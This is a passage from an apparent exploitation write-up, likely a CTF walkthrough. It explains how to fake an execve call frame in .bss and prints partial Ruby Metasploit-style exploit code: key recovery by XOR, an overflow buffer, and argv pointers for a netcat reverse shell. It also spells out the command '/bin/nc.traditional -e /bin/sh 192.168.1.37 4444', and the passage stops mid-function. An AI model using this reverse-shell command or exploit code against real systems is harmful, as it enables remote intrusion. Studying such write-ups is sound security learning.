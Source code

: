 Attach gdb, reload the exploit, run it again and we crash on `0xdeadbeef` again with a clean stack!

## <a name="setting-up-the-execve-frame"></a> Setting up the execve frame
---

We can read in arbitrary data to `0x0804b420`, but what data is required to fake the `execve` frame?

[execve](http://linux.die.net/man/2/execve) takes 3 arguemnts:

- The filename or path as a string pointer
- The set of arguments as a null terminated array of string pointers
- The set of environment variables as a null terminated array of strings pointers

The full command to execute is: `$ /bin/nc.traditional -e /bin/sh 192.168.1.37 4444`. This means reading in:

- A string for the path
- 5 string for arguments
- 5 pointers to these strings and a null terminator
- A null terminator for the environment variables

Incase the length of the IP and port strings change we will read in the pointer data first, then the strings.


{% highlight Ruby %}
def exploit
  # Open the TCP connection
  connect

  # Receive initial messages
  buffered_recv(57)

  # Recover the encryption key
  data = "A" *128
  encrypted_data = encrypt(data.length, data)
  key = xor_encrypt(data, encrypted_data)

  # Created enough data to cause a crash
  prejunk = "A" * 0x20010

  cmd = "/bin/nc.traditional"
  null = "\000"
  args = [cmd, "-e", "/bin/sh", datastore['LHOST'], datastore['LPORT'].to_s]
  bss = 0x0804b420
  data = ""


  # Create each of the string pointers
  offset = 24 + cmd.length + 1 # 6 ptrs, the command, and a null
  args.each do |arg|
    data += [bss+offset].pack('V')
    offset += arg.length + 1
  end
  # Terminate the string pointers
  data += [0x00000000].pack('V')
